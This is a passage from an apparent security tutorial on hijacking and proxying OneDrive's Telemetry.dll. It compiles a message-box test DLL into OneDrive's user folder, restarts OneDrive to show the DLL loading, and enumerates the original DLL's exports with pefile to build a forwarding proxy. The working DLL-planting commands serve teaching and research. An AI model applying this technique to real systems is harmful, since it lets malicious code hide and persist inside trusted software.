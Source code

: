 This dll will create a thread and show a message box upon being loaded. We will run `x64 Native Tools Command Prompt for VS 2022` and compile our code into `C:\...\OneDrive\Telemetry.dll`.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>c:\Users\IEUser\dllp><span class="ow">cl dll.c /link /dll /out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll</span>
Microsoft (R) C/C++ Optimizing Compiler Version 19.33.31630 for x64
Copyright (C) Microsoft Corporation.  All rights reserved.

dll.c
Microsoft (R) Incremental Linker Version 14.33.31630.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:dll.exe
/dll
/out:C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll
dll.obj
</code></pre></div></div>

After that, when we try to restart OneDrive it will crash until we remove our dll.

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>c:\Users\IEUser\dllp><span class="ow">taskkill /IM "OneDrive.exe" /F</span>
SUCCESS: The process "OneDrive.exe" with PID 4168 has been terminated.

c:\Users\IEUser\dllp><span class="ow">C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe</span>

c:\Users\IEUser\dllp><span class="ow">tasklist | findstr OneDrive</span>

c:\Users\IEUser\dllp><span class="ow">del C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\Telemetry.dll</span>

c:\Users\IEUser\dllp><span class="ow">C:\Users\IEUser\AppData\Local\Microsoft\OneDrive\OneDrive.exe</span>

c:\Users\IEUser\dllp><span class="ow">tasklist | findstr OneDrive</span>
OneDrive.exe                  4864 RDP-Tcp#1                  2    126,888 K
</code></pre></div></div>



# Proxying calls into the original `Telemetry.dll`
Let's transfer `Telemetry.dll` to a linux box and take a look at it. What we have to do now is to get a list of all exports of the original `Telemetry.dll` so our dll handles all of them. We can get this list using [pefile](https://github.com/erocarrera/pefile).

<div class="language-plaintext highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code>$ <span class="ow">python -m pefile exports Telemetry.dll</span>
0x180010790 b'??0AddMountedFolderScenario@QoS@@QEAA@XZ' 1
0x180010910 b'??0AutoMountScenario@QoS@@QEAA@XZ' 2
0x18000f6f0 b'??0CheckQuotaInfoScenario@@QEAA@XZ' 3
0x180010850 b'??0ConnectMountedFolderScenario@QoS@@QEAA@XZ' 4
0x1800194a0 b'??0DownloadScenario@@QEAA@AEBV?$basic_string@_WU?$char_traits@_W@std@@V?$allocator@_W@2@@std@@W4DownloadType@@@Z' 5
0x18000fd80 b'??0KFMMigrationScenario@@QEAA@XZ' 6
0x18000fe40 b'??0KFMRestoreScenario@@QEAA@XZ' 7
0x18000fc40 b'??0KFMUXScenario@@QEAA@XZ' 8
0x18000fbc0 b'??0KFMUploadScenario@@QEAA@XZ' 9
0x18000fcc0 b'??0KFMUserInitiatedScanScenario@@QEAA@XZ' 10
0x1800089f0 b'??0QosSyncWrapperConfig@QoS@@QEAA@I_N00PEB_W11@Z' 11
... and a lot more ...